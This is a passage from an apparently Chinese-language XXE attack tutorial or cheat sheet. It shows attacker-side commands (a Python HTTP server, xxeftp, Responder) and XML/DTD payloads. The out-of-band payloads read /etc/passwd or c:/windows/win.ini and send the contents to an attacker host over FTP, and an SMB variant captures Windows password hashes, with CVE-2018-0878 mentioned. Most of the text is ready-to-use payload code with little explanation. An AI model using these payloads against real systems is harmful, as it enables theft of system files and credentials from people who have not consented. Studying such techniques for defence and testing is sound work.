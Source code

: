 **攻击者**  
运行 python HTTP 服务器来托管 dtd 文件和 xxeftp 服务器（参考这里）。  
```
python -m SimpleHttpServer 9000

python xxeftp.py
```  
  
**受害者：**  
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://dnsattacker.com:9000/linux.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```  
  
**linux.dtd**  
```
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>">
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpomUHJyangKtwtB0icSxcWxjPmFWS59xStJTafJ52MqDZicolMFV9fg4xA/640?wx_fmt=png&from=appmsg "")  
  
**注意**  
：对于基于 Windows 的受害者机器，使用下面提到的 dtd 文件  
  
**windows.dtd**  
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>">
```  
#### SMB [窃取哈希]  
  
**攻击者**  
：运行 responder 捕获哈希  
```
sudo ./Responder.py -I eth0
```  
  
**受害者：**  
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "\\dnsattacker.com\test" >]>
<foo>&xxe;</foo>
```  
  
**注意**  
：出于演示目的，我们将使用 CVE-2018-0878：Windows Remote Assistance XXE 漏洞  
  